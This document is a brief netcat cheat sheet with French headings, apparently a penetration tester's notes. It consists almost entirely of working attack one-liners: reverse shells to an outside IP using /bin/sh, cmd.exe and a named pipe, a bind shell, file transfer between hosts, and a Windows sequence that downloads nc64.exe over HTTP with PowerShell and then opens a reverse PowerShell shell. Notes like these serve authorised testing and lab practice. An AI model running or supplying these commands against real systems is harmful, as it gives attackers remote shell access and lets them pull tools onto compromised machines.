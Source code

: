 ## netcat

## reverseshell

### selon les versions: -c remplace -e

nc 10.0.0.1 1234 -e /bin/sh
nc 10.0.0.1 1234 -e cmd.exe
nc -e /bin/sh 10.0.0.1 1234

# listener:

nc -nvlp 443

## file transfert:

alice:
nc -lnvp 10443 < lse.sh
bob:
nc IP 10443 > lse.sh

# bind shell:

nc -l -p <port> -e /bin/bash

# sans options:

victim$ mknod /tmp/backpipe p 
victim$ /bin/sh 0</tmp/backpipe | nc pentestbox 443 1>/tmp/backpipe

# nc traditional: 

/usr/bin/nc.traditional

# Windows:

powershell -c “iwr http://10.10.14.4:8000/nc64.exe -outfile c:\temp/bouf.exe”
c:\temp\nc64.exe 10.10.14.4 10443 -e powershell

